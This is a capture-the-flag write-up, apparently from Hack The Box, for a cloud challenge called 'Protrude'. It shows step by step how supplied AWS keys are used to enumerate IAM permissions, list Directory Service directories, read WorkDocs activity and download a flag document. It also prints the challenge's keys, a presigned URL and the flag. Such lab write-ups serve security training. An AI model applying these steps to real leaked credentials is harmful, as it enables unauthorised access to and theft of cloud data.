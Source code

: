![banner](Protrude.assets/banner.png)



<img src="Protrude.assets/htb.png" style="margin-left: 20px; zoom: 40%;" align=left />        <font size="10">Protrude</font>

​	2<sup>nd</sup> May 2024 / Document No D24.102.67

​	Prepared By: felamos

​	Challenge Author(s): felamos

​	Difficulty: <font color=green>Easy</font>

​	Classification: Confidential

# Synopsis

Protrude represents an easy level cloud challenge, designed to showcase AWS directory service and AWS workdocs permission misconfiguration.

# Description
We have obtained leaked account pertaining to Vault 101, with suspicion that it may be linked to one of the leaders group. Your task is to enumerate and see if we can infiltrate them internally.

```
Access key ID,Secret access key, region name
AKIAXYAFLIG2JE6MC2SY,teWVv0GzIBKS23uozxUGmUH+muE5XB86fnZmRZXu, us-east-1
```

# Flag

`HTB{v4Ul7I0i_i5_L0vely_I5n'7_I7?}`

# Solution

We are already provided with AWS access key and a region name. Lets use aws cli to configure for later use. Please following https://aws.amazon.com/cli/ in order to install this tool.

```
aws configure
AWS Access Key ID [****************]: AKIAXYAFLIG2JE6MC2SY
AWS Secret Access Key [****************]: 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
Default region name []: us-east-1
Default output format []: json
```

Now that the account is configured, we can move on to the next step which is to enumerate all aws permission on this account. It would be like shooting blindly if we start using the tool without knowing what kind of access it has. In order to achieve this we will make use of enumerate-iam tool which can be found on github https://github.com/andresriancho/enumerate-iam. Lets clone it.

```
git clone https://github.com/andresriancho/enumerate-iam
Cloning into 'enumerate-iam'...
remote: Enumerating objects: 56, done.
remote: Counting objects: 100% (26/26), done.
```

Once we have cloned the tool we can install missing modules if there are any but to use it we will need to provide access key and secret key as shown below.

```
python3 enumerate-iam.py --access-key AKIAXYAFLIG2JE6MC2SY --secret-key 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
2024-05-02 20:10:34,564 - 89774 - [INFO] Starting permission enumeration for access-key-id "AKIAXYAFLIG2JE6MC2SY"
2024-05-02 20:10:37,272 - 89774 - [INFO] -- Account ARN : arn:aws:iam::532587168180:user/aalmodovar
2024-05-02 20:10:37,272 - 89774 - [INFO] -- Account Id  : 532587168180
2024-05-02 20:10:37,272 - 89774 - [INFO] -- Account Path: user/aalmodovar
2024-05-02 20:10:37,441 - 89774 - [INFO] Attempting common-service describe / list brute force.
2024-05-02 20:10:39,157 - 89774 - [INFO] -- dynamodb.describe_endpoints() worked!
2024-05-02 20:10:40,985 - 89774 - [ERROR] Remove codedeploy.list_deployment_targets action
2024-05-02 20:10:43,060 - 89774 - [ERROR] Remove codedeploy.batch_get_deployment_targets action
2024-05-02 20:10:43,203 - 89774 - [ERROR] Remove codedeploy.get_deployment_target action
2024-05-02 20:10:44,297 - 89774 - [INFO] -- ds.describe_directories() worked!
2024-05-02 20:10:50,356 - 89774 - [INFO] -- sts.get_caller_identity() worked!
2024-05-02 20:10:50,506 - 89774 - [INFO] -- sts.get_session_token() worked!
```

According to the tool this access key belong to user aalmodovar and according to fallout lore it may be 
Amata Almodovar or Alphonse Almodovar. The tool has found that we have access dynamodb describe_endpoints and ds describe_directories and other insignificant ones which can ignore for now. Since dynamodb one does not lead anywhere we can focus completely on ds which is AWS Directory Service https://aws.amazon.com/directoryservice/. Lets use aws cli to list all AD directories

```
aws ds describe-directories
{
    "DirectoryDescriptions": [
        {
            "DirectoryId": "d-9067e0513b",
            "Name": "vault101.wasteland.local",
            "ShortName": "VAULT101",
            "Size": "Small",
            "Alias": "vault101",
            "AccessUrl": "vault101.awsapps.com",
            "DnsIpAddrs": [
                "172.31.87.164",
                "172.31.31.15"
            ],
            "Stage": "Active",
            "LaunchTime": "2024-04-28T22:47:14.630000+01:00",
            "StageLastUpdatedDateTime": "2024-04-28T22:54:13.623000+01:00",
            "Type": "SimpleAD",
            "VpcSettings": {
                "VpcId": "vpc-0d7b2c5c8509574bd",
                "SubnetIds": [
                    "subnet-0a5022ff1dfdf5518",
                    "subnet-0574f58cd2d4f85ca"
                ],
                "SecurityGroupId": "sg-0bee7f241cef79345",
                "AvailabilityZones": [
                    "us-east-1a",
                    "us-east-1d"
                ]
            },
            "SsoEnabled": true,
            "DesiredNumberOfDomainControllers": 0
        }
    ]
}
```

According to the output there is one directory with id of `d-9067e0513b` and name `VAULT101`, we also see a very interesting `accessUrl` parameter which show cases a website. Lets visit it using our browser.

vault101.awsapps.com

![](Protrude.assets/workdocs.png)

The website seems to be AWS WorkDocs connected to this directories, our enumeration tool did not find any permissions on this but regardless lets try to see activities on this directory for workdocs, we can do that using following command. 

```
aws workdocs describe-activities --organization-id d-9067e0513b

{
 <SNIP>
        {
            "Type": "DOCUMENT_VERSION_VIEWED",
            "TimeStamp": "2024-04-28T23:29:02.323000+01:00",
            "IsIndirectActivity": false,
            "Initiator": {
                "Id": "anonymous"
            },
            "ResourceMetadata": {
                "Type": "document",
                "Name": "flag.txt",
                "Id": "77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3",
                "Owner": {
                    "Id": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b"
                }
            }
        },
  <SNIP>
```

The command returns a very interesting Metadata which contains a document type file name `flag.txt` and has an ID and owner. We can actually use aws cli to get this document since we have the document id. We can achieve this using following command.

```
aws workdocs get-document --document-id 77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3

{
    "Metadata": {
        "Id": "77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3",
        "CreatorId": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b",
        "ParentFolderId": "a640c404de3b5999c1d06cdf4eb6b7a29de60b26d1611cc8bc3757447dc49555",
        "CreatedTimestamp": "2024-04-28T23:24:09.164000+01:00",
        "ModifiedTimestamp": "2024-04-28T23:29:39.341000+01:00",
        "LatestVersionMetadata": {
            "Id": "1714343049164-81272441b82c9b001b5dc02d4cc08291587c9fc374f03ac27a71773271311aea",
            "Name": "flag.txt",
            "ContentType": "text/plain",
            "Size": 34,
            "Signature": "d2e51309fefb4b367def2c26cb725048",
            "Status": "ACTIVE",
            "CreatedTimestamp": "2024-04-28T23:24:09.164000+01:00",
            "ModifiedTimestamp": "2024-04-28T23:24:09.164000+01:00",
            "CreatorId": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b",
            "Thumbnail": {
                "LARGE": "https://gb-prod-doc-source.s3.amazonaws.com/77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3/1714343049164-81272441b82c9b001b5dc02d4cc08291587c9fc374f03ac27a71773271311aea/PDF_LARGE?response-content-disposition=attachment%3B%20filename%2A%3DUTF-8%27%27LARGE&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEAwaCXVzLWVhc3QtMSJGMEQCICFWeBVMxr%2FI%2BsvfQDTy7vyD%2BpgTiIiI9pKcveuOdilZAiATSungpHGTaM0hoyYRIwqwRSO%2BL26M%2BqU8Y09i5ukJWyrTAwhkEAAaDDk3MzE4NzU1MzAyNyIMTMjl0z79u19N5eFgKrADUbkUcMy%2B2wb2JOz9JFfJ%2FPDOyhzdTlCZYgax4qTllI1Ic85aTms91STsTUtro5tyUACWI30xY7Y0OaIidAV0M4AGeS2B2Hx1GIT4%2BBnV0WobbmvtOuzCVP4xmkW4LjD8G38pmEGW2XQDUvcamDDnuAWL%2FNeRgdWaCSAOlMFE%2FkOtMGkx9KZJPcnUsNRVZsp7RBX0q6gyKzTPKgdmb9f4z6gSZteUCwb0lD0lSU1yavZ5%2B%2B3gN8%2Fa3CiP%2FKHJ4deaHbPxbMASHd3WAw1MOvqra2VfqSjUDgSD0hlazgBvYbMznltIv0ZBNslIuqoWomp82e1aVAs86QDOPtXF2MFs9bM7Dq9l3vMokzxyKZhCl6jaFmXFAirAxVJuvqhHSV5SI4EeuLgCz4poG6ICQn4KWQA7VQsiIX52AJ2w8IYt4jmMEQiLFyRYIQxk18NbJh0420kfFq25AU56dY23%2BuNOTwOy4wCuRI3bfycEhm5jj1%2FJZJdO08NS9LF8C1QW7Fq0U6r1ZxguNV7T4r9vx0nIfTwIxm1X7%2BECcOyLBNkfoC%2F1BpsFYG2INgvdLBuauRFsMI3Lz7EGOqIBeBQYLh45tWzfGNLciSREaTSkzwnl%2BkTVgGza4n6efbCMULO7CkuWXI%2Bo4SnRBQ2r16hNDnhIi%2BscfEBgdXSIOL%2FWjbcr6KOlfkuwukXkjdXLv2LWA3S8DwJEYxGyz%2BRYA3yA2bMClh9J5uvjlP7fjdO9fLfejLX3fJM7OboMj8GY5MpzVBESw4f8vjJKUu9fDOUKsakwxRQM%2FjpAuw9bdBHH&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240502T191545Z&X-Amz-SignedHeaders=host&X-Amz-Expires=900&X-Amz-Credential=ASIA6FFT7S4B4XNEKW3T%2F20240502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=7767aebdd6772c8e9cc58f6e2516d9e73b3dfa56d27d972fbc56db82f139e909",
```

This returns multiple links for us to access, we want to choose large image so the picture of the file is clear. We can either use browser to download this file or use curl and save it.

```
curl 'https://gb-prod-doc-source.s3.amazonaws.com/77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3/1714343049164-81272441b82c9b001b5dc02d4cc08291587c9fc374f03ac27a7<SNIP>' --output f.png
```

![](Protrude.assets/flag.png)